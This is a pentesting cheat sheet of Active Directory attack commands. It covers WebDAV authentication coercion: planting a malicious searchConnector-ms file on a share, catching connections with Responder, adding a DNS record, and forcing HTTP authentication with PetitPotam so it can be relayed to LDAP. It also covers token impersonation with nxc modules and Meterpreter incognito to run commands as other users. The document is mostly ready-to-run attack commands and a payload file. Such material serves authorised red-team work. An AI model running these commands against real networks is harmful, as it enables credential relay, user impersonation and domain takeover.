 {% code overflow="wrap" fullWidth="true" %}
```bash
# first let’s take a look if webdav is enable on servers:
nxc smb $IP_RANGE -u $USER -p $PASS  (-d domain.local) -M webdav
# We should see no webdav since the servic WebClient is stopped by default on Windows and not installed by default on Windows Server
# Now we will upload our malicous payload to the smb server with the name: myname.searchConnector-ms
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription
xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
<description>Microsoft Outlook</description>
<isSearchOnlyItem>false</isSearchOnlyItem>
<includeInStartMenuScope>true</includeInStartMenuScope>
<templateInfo>
<folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
</templateInfo>
<simpleLocation>
<url>https://whatever/</url>
</simpleLocation>
</searchConnectorDescription>
# Or we could also do that with the cme/nxc module drop-sc
nxc smb $IP -u $USER -p $PASS  (-d domain.local) -M drop-sc
# Now we run responder and if a user visits the share, the webdav service will start (we can check it running -M webdav again)
# now we will go on our responder CT to get the webdav coerce
#  Once the webclient started we can add a dns entry to our responder ip with dnstools:
dnstool.py -u 'domain.local\user' -p pass --record 'responder' --action add --data 10.10.10.6 192.168.10.11
# Now if we are in the same network we can try directly or if we are in another network we will have to wait for the dns.
# Next we use petitpotam on the server with webdav enabled to force a webdav (http) coerce to our server:
petitpotam.py -u 'user' -p pass -d 'domain.local' "responder@80/random.txt" $SERVER_IP_WITH_WEBDAV_ENABLED
# Another way if the victim can resolve your netbios name you will not have to add a dns entry an you can use the netbios name given by responder (responder machine name)
petitpotam.py -u 'user' -p pass -d 'domain.local' "WIN-6WQ7CSHQ2YG@80/random.txt" $SERVER_IP_WITH_WEBDAV_ENABLED
#     And on our responder listener we got a connection:
### NOTE: With an http coerce we can relay to ldap if ldap signing is not enforced (default). This can be use to interrogate ldap, do a shadow credentials attack, or to add a new computer and do an RBCD on the coerced host. 
```
{% endcode %}

## Impersonate Users - Token Impersonation

{% code overflow="wrap" fullWidth="true" %}
```bash
https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/
https://github.com/sensepost/impersonate
nxc smb $IP -u $USER -p $PASS  (-d domain.local) -M impersonate
# And we can launch command as the user:
nxc smb $IP -u $USER -p $PASS  (-d domain.local) -M impersonate -o TOKEN=$NUMBER EXEC=whoami
#    If you want to use other tools you can use @_zblurx rust implementation : https://github.com/zblurx/impersonate-rs
#    Or a csharp impersonation tool by S3cur3Th1sSh1t (@ShitSecure) : https://github.com/S3cur3Th1sSh1t/SharpImpersonation and the super nice blogpost with it : https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/
#    And if you already got an meterpreter session the incognito msf module is really nice too.

meterpreter> load incognito
```